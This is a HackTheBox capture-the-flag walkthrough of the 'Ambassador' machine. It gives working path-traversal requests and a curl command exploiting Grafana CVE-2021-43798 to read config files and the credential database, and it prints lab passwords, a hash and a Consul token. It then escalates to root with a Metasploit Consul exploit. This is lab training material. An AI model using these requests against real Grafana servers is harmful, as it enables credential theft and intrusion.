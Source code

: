 ```yaml
---
title: Ambassador
date: 2023-01-08 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [grafana, curl, devops, sqlite, mysql, linux, cve-2021-43798, consul, git]
---
```


<https://app.hackthebox.com/machines/>

Break into a linux devops box exploiting LFI through an out of date analytics web app. Take advantage of the devops git to find a way to the root flag. 

- `sudo nmap -p- -T4 10.10.11.183 -vvvv`

Ports open: 22,80,3000,3006

- `sudo nmap -p22,80,3000,3306 -sC -sV -O 10.10.11.183 -vvvv`

## # Port 80

Nothing here I ran feroxbuster with medium raft directories but we do get a note

We get a note

- Use the **developer** account to SSH, DevOps will give you the password.

## # Port 3000 

Here we find a Grafana instance. Grafana is an open-source monitoring playform that allows you to alert and querty and visualize different data sourced, like databases. The key must be here? running feroxbuster yeild a shitload of nothing, checking the source of the grafana page and searching for "version" we find the Grafana version 8.2.0.

- `https://www.exploit-db.com/exploits/50581` - CVE-2021-43798 - Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files. The exploit works by being allowed to use the plugins in the api then directory traversal to read whatever you are allowed to ready on the system.

This script will use the exploit by doing all the work allowing us to view files use we can use this to read the grafana config files located at `/etc/grafana/grafana.ini` then use those credentials to login to grafana. 

```
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

We can also exploit this manually be sending a burpsuite request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

Okay so the exploit above doesnt allow us to really do anything other than read the files...Can we use a curl request to download the grafana.db On macOS and Linux, the default location is `/var/lib/grafana/grafana.db`.

- Burpsuite repeater request:

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: ambassador.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: grafana_session=623f4d37681413f3b35dcd3db3830779
Connection: close
```

This pulls up a database

we can download this with curl

- `curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db`

And open in `sqlite3`

we can use `.tables` to see all tables then `SELECT * FROM user;` where we can see admin credentials.

1|0|admin|admin@localhost||dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069|0X27trve2u|f960YdtaMF||1|1|0||2022-03-13 20:26:45|2022-09-01 22:39:38|0|2023-01-09 08:20:50|0

`dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069`

I thought this went soemwhere but after a ahwile of nothing went back in and checked the data_source table. I really, really, should have looked at all of the tables.

`2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-08 22:39:14|0|{}|1|uKewFgM4z`

- `mysql -u grafana -h ambassador.htb -p`

```
SHOW DATABASES;
SHOW tables;
SELECT * FROM USERS;
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

All of the other databases we dont have access to.

- `echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d` gives us `anEnglishManInNewYork027468`

and we are into the system!

# Privilege Escalation 


r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig
drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

we find some git files here! this being a devops server probably the way to our flag

notice there is some stuff happening inside of /opt/ specifically a django server.

running `netstat -tulp` we can see there is some addesses that we are only able to access on localhost. in order to access these we need to setup a port-forward and can do this with via ssh.

```
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -         
```

the consul service is only available on 8500 remotely

- `ssh -L 8500:localhost:8500 developer@ambassador.htb`

After creating a tunnel and checking out the 830x ports and not getting anywhere, I think his more to do with the git located here thought. So going to look into the git.

- `git log` shows git commit hisotry
- `git show` check the git commits in the history

checking the git commits so come accross a token of some sort `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55` we find `consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWO`

checking metasploit there are some RCEs `multi/misc/consul_service_exec` 

using this exploit its pretty easy to get root with the ACL token rhosts set to localhost (because we forwarded the port) and the just the LHOST and LPORT.

cd to root for the last flag.
